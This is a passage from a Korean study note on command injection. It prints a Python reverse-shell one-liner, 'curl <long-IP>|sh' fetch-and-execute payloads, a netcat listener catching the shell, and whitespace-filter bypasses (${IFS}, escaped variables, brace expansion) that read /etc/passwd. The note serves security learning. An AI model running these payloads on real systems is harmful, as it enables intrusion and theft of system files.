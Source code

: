            | 4 | stdout, stderr를 0번 fd(socket)으로 redirection 시키는 bash를 생성함 <br/> &nbsp;&nbsp; → 이를 통해 원격의 데이터를 현재 소켓으로 출력시킬 수 있음

<br/>

* IP 주소 변환을 이용하는 방법
    + IP 주소 변환
        - 짧은 길이의 도메인을 이용하거나, IP 형시을 long 타입 형식으로 변환(ip2long)하는 등의 방법을 이용해 IP Address를 짧게 입력할 수 있음
        - 📌 ***변환된 IP 주소는 다양한 애플리케이션에서도 해석이 가능하기 때문에 기능이 정상적으로 수행됨***
    + 예시: long 타입으로 변환한 IP 주소를 이용하거 네트워크 도구를 이용한 리버스 쉘(Reverse Shell) 공격
        - [1] IP 주소를 long 타입으로 변환함
            ```python
            #!/usr/bin/python3
            import ipaddress
            int(ipaddress.IPv4Address("127.0.0.1")) # long 타입으로 변환한 결과: 2130706433
            ```
        - [2] Command Injection 취약점이 발생하는 쉘이 최종적으로 실행할 명령어가 포함된 페이지(index.html)를 작성함
            ```linux
            python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("127.0.0.1",1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
            ```
        - [3] ```curl```, ```wget``` 등의 네트워크 도구를 통해 외부 서버에 존재하는 index.html를 다운받아 실행할 수 있도록 메타 문자를 설정함
            ```
            curl 2130706433|sh
            $(curl 2130706433)
            `curl 2130706433`
            ```
            + ```curl``` 명령은 변환된 long 타입의 IP 주소(```2130706433```)를 해석하여 공격 대상 서버에서 공격자 웹 서버에 리버스 쉘을 실행하는 스크립트를 받아옴 → 이를 실행하면 쉘을 획득할 수 있음
        - [4] 3번의 명령어가 성공적으로 실행되게 되면 리버스 쉘이 실행됨
            ```linux
            $ nc -l -p 1234 -k -v
            Listening on [0.0.0.0] (family 0, port 1234)
            Connection from [127.0.0.1] port 1234 [tcp/*] accepted (family 2, sport 53220)
            $ id
            uid=1000(users) gid=1000(users) groups=1000(users)
            $
            ```

<br/><br/>

### 입력 값의 내용이 제한된 상황
* Command Injection 취약점이 발생하지만 입력하는 데이터 내용에 대한 검증 또는 어플리케이션 로직에 의해 원하는 내용을 직접적으로 입력하지 못하는 상황에서 사용할 수 있는 방법 <br/> &nbsp;&nbsp; → ⚠️ 주로 **쉘에서 제공하는 기능** 또는 **환경 변수** 등을 이용하여 최종적으로 원하는 명령어를 실행할 수 있음

<br/>

* 애플리케이션에서 공백 문자(Whitespace)를 필터링할 경우
    - ```${IFS}```, ```$IFS```를 공백 문자 대신 사용하여 우회하는 방법
        ```linux
        cat${IFS}/etc/passwd
        cat$IFS/etc/passwd
        ```
        + **IFS**(Internal Field Separtor): 외부 프로그램 실행 시 **입력되는 문자열을 나눌 때 기준이 되는 문자**를 정의하는 환경변수
            - 리눅스 터미널에서 ```echo $IFS```로 환경 변수를 출력해보면 공백 문자가 출력되는 것을 확인할 수 있음
            - 디폴트 값은 공백(space)/탭(tab)/개행(new line) 문자임
    - 변수를 선언하여 해당 변수에 공백을 대신할 수 있는 문자를 대입한 후 ```${변수}```를 공백 문자 대신 사용하요 우회하는 방법
        ```linux
        X=$'\x20\';cat${X}/etc/passwd
        X=$'\040';cat${X}/etc/passwd
        ```
        + ```${변수}```에서 중괄호로 감싼 변수에 해당하는 값으로 치환됨
    - 중괄호(```{}```)를 이용하거나 입력을 재지정하는 문자 ```<```를 통해 공백 문자를 우회하는 방법
        ```linux
        {cat,/etc/passwd}